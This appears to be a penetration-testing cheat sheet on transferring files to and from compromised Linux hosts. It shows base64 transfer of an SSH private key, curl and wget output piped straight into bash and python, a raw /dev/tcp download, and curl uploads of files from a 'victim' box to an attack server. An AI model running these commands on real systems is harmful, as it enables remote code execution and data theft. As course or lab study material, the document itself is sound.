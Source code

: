 # Downloading to Linux

## Base64 Encoding / Decoding

### Check SSH Key MD5 hash
```bash
md5sum id_rsa
	4e301756a07ded0a2dd6953abf015278 id_rsa
```

### Encode SSH Key to Base64
```bash
cat id_rsa | base64 -w 0; echo
	[Base64_Output]
```

### Decode the File and Save to Target Linux Box
```bash
echo -n '[Base64_Output]' | base64 -d > id_rsa
```

### Confirm MD5 Hashes Match
```bash
md5sum id_rsa
	4e301756a07ded0a2dd6953abf015278 id_rsa
```


## Wget and cURL

### Download a File Using wget
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
	- NOTE output filename option is capital '-O'

### Download a File Using cURL
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o /tmp/LinEnum.sh
```
	- NOTE output filename option is lowercase '-o'


## Fileless Attacks

### Fileless Download with cURL
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Fileless Download with wget
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


## Download with Bash (/dev/tcp)

### Connect to the Target Webserver
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

### HTTP GET Request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

### Print the Response
```bash
cat <&3
```


## SSH Downloads

### Enable the SSH Server
```bash
sudo systemctl enable ssh
```

### Start the SSH Server
```bash
sudo systemctl start ssh
```

### Check/ Verify for SSH Listening Port
```bash
netstat -lnpt
	...
	Proto   Recv-Q  Send-Q  Local Address    Foreign Address    State     PID/Program name
	tcp          0       0  0.0.0.0:22       0.0.0.0:*          LISTEN    -
```

### Downloading Files Using SCP

>Recommend creating a temp user account for file transfers to avoid using primary creds or keys on remote comp.

```bash
# scp remote_login:file local_save
scp [Attack_User]@[Attack_IP]:[Target_File_Path] [Output_File]
```


# Uploading to Linux

## Web Upload

### Start Web Server on Attack box
```bash
sudo python3 -m pip install --user uploadserver
```

### Create a Self-Signed Certificate on Attack box
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

>Webserver should not host the cert.  Recommend creating a new dir to host the file for the webserver

### Start Web Server on Attack box
```bash
mkdir https && cd https

sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

### Upload Multiple Files from Victim
```bash
curl -X POST https://[Attack_IP]/[Output_File] -F 'files=@[Target_File_Path]' -F 'files=@[Target_File_Path]' --insecure
```
	- --insecure option - Because we used a self-signed cert that we trust


## Alternative Web File Transfer Method
- If the server we compromised is a web server, we can move the files we want to transfer to the web server directory and access them from the web page.
- Remember that inbound traffic may be blocked.

### Creating a Web Server w/ Python3 on Victim Box
```bash
python3 -m http.server
```

### Creating a Web Server w/ Python2.7 on Victim Box
```bash
python2.7 -m SimpleHTTPServer
```

### Creating a Web Server w/ PHP on Victim Box
```bash
php -S 0.0.0.0:8000
```

### Creating a Web Server w/ Ruby on Victim Box
```bash
ruby -run -ehttpd . -p8000
```

### Download the File from the Victim Box onto the Attack Box
```bash
wget [Victim_File_URL]
```


## SCP Upload

### File Upload using SCP
```bash
# scp local_file remote_login:save_path
scp [Target_File_Path] [Attack_User]@[AttackIP]:[Output_File_Path]
```